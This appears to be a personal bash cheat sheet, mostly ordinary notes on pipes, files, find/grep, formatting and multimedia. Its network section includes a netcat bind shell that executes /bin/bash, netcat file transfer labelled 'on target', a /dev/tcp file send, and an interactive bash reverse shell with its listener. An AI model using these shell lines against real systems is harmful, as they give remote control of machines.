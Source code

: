 # features

    set -m      # enable job control, adds feautures to & (background job): jobs, ctrl+Z, fg, bg

# pipe

    # file descriptors: pointers to the sources of data that the programs are using.
    0   stdin   Standard Input
    1   stdout  Standard Output
    2   stderr  Standard Error

    # send stderr to stdout
    cmd 2>&1 | cat
    cmd >>file.txt 2>&1

    # send to file and stdout
    ls 2>&1 | tee /tmp/ls.txt

# user

    # rename
    usermod --login new_username old_username

# files

    # disk space
    # Filesystems disk space usage
    df -h
    # estimate directories space usage in [h]uman & [s]ummarized
    du -hs

    # apply a file attributes to b
    touch -r <a> <b>

    # sha1sum check
    echo <hash> <file> | sha1sum -c

    # get filename no extension
    "${pkey%.*}"

# conditions

    # check if command exists
    command=`which mycmd`
    if [ -z "$command" ]; then
        echo "Command not found"
    fi

# finding

    # something inside all directory files
    grep -Rn <word> <dir>

    # execute on all files inside a directory
    find <dir> -type f -execdir <command> {} \;

    # excluding directories
    # Find at / (path1 OR path2) if found dir return True & don't descend (-prune) OR you_data_to_find (rest).
    find / \( -path /sys -o -path /var \) -prune -o -type d -name site-packages

    # get nth line in file
    awk -v n=$MY_VAR 'NR == n' /tmp/file

    # replace strings
    grep -rl matchstring somedir/ | xargs sed -i 's/string1/string2/g'

    # replace filenames
    find . -name *_test.rb | sed -e "p;s/test/spec/" | xargs -n2 mv

    # loop over files with spaces
    find . -type f -name "*.priv" -print0 | while IFS= read -r -d '' file; do echo "$file"; done

# formating

    # make a patch
    diff -Naur file1 file2 > file.patch

    # lines to commas
    cat data.txt | paste -s -d, -

    # remove head and tail banners
    cat ssh.key | tail -n +2 | head -n -1

    # Command output as file
    diff <(echo "abc") <(echo "abd") 

# functions

    # counter
    echo 0 > /tmp/c; cat /tmp/c
    for i in seq 3 ; do
        i=$(cat /tmp/c) && echo $((i+1)) > /tmp/c && echo $(cat /tmp/c);
    done;

# network

    whois google.com
    dig +short google.com
    nslookup google.com

    tracepath <desitination>

    # network statistics
    Network statistics of upload & download rates
    vnstat -i wlan0

    # mount ssh directory
    sshfs roger@ipaddr:/home/toto /mnt/roger/
    fusermount -u mountpoint # unmount

    # wsharks: capture as non-root
    sudo usermod -a -G wireshark <username>
    sudo chmod 750 /usr/bin/dumpcap
    sudo setcap cap_net_raw,cap_net_admin+eip /usr/bin/dumpcap
    # logout

    # investigate sockets: all, numeric(noresolve), tcp, listen, processes
    ss -antlp

    # create file on target
    nc -vlpn 6666 > mybin
    
    # execute on target on connect
    nc -vlpn 6666 -e /bin/bash
    
    # send from source
    nc -vn <ip> 6666 < mybin

    # native /dev/tcp way
    { cat /tmp/toto >&3; cat <&3; } 3<>/dev/tcp/0.0.0.0/42070

    # http get with netcat
    cat <(echo "GET \file.txt HTTP/1.0" && echo) - | nc 1.1.1.1 2222 -vv

    # http get with native /dev/tcp way
    { printf >&3 'GET / HTTP/1.0\r\n\r\n'; cat <&3 } 3<>/dev/tcp/www.google.com/80

    # reverse shell listen
    nc -v -l -p 6666

    # reverse shell interactive bash on tcp:
    # >& (send bash output); 0>&1 (resend stdin to stdout); & (background)
    /bin/bash -i >& /dev/tcp/<ip>/6666 0>&1 &

# multimedia

    # converting with ffmpeg & avconv
    ffmpeg -fflags +genpts -i input.avi -map_metadata 0:s:0 -codec copy -f mp4 output.mp4   # removes metadata
    avconv -i in.webm -c:v libx264 -crf 20 -c:a aac -strict out.mp4

    # download files from url
    wget -r -P <destination> -A jpeg,jpg,bmp,gif,png,webm,webp

    # get open window info
    xprop -root | grep <window id>
    xprop -id <id>

# literacy

    # dictionnary
    mkdir -p /usr/share/stardict/dic/
    tar -xvjf downloaded_dictionnary.tar.bz2 -C /usr/share/stardict/dic
    tar -xvzf downlaoded_dictionnary.tar.gz -C /usr/share/stardict/dic
    sdcv word

- http://abloz.com/huzheng/stardict-dic/
- https://web.archive.org/web/20140917131745/
- http://abloz.com/huzheng/stardict-dic/dict.org/
